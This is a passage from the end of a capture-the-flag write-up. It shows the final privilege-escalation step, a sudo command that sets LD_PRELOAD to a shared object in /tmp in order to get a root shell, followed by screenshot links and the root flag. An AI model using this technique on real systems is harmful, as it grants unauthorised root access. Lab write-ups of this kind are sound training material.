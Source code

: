 ```
sudo LD_PRELOAD=/tmp/shell.so ping
```

And we get root

![[Pasted image 20240810195511.png]]

and here is the root flag

![[Pasted image 20240810195547.png]]

Thanks for Reading :)






